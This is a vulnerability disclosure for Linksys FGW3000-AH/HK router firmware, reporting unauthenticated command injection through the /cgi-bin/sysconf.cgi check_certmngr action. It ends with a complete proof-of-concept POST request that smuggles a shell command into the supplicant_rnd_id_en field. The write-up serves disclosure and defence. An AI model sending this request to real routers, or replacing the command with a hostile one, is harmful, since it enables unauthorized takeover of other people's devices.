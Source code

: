 # Information



**Vendor of the products:** Linksys Holdings, Inc.

**Vendor's website:** [Linksys | Networking & WiFi Technology](https://www.linksys.com/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** FGW3000-AH/FGW3000-HK

**Affected firmware version:** <=Ver. 1.0.17.000000

**Firmware download address:** [download]([Firmware and Documentation - Linksys Support](https://support.linksys.com/kb/section/57/))

# Overview

A serious command execution vulnerability was found in Linksys routers FGW3000-AH and FGW3000-HK. An attacker can make unauthorized requests through the route /cgi-bin/sysconf.cgi and execute commands by sending a specific POST request.

# Vulnerability details

When action=check_certmngr, the function sub_4153FC will be requested and processed

![image-20250426152741001](1/image-20250426152741001.png)



Command injection and command execution exist here

![image-20250426152821146](1/image-20250426152821146.png)

# POC

```
POST /cgi-bin/sysconf.cgi HTTP/1.1
Host: 192.168.122.150
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
X-Requested-With: XMLHttpRequest
Content-Length: 161
Origin: http://192.168.122.150
Connection: close
Referer: http://192.168.122.150/
Cookie: Secure; __guid=82765014.4196598859201601500.1743513625621.1406; langCookie=ui; Secure; page=undefined,mobile,0,0

page=ajax.asp&action=check_certmngr&cert_page=w&supplicant_password=a&supplicant_phase1=;bbb;&supplicant_phase2=;aaa;&supplicant_rnd_id_en=;ls -l /  >/www/1.txt;
```

![image-20250426153959535](1/image-20250426153959535.png)

![image-20250426154009897](1/image-20250426154009897.png)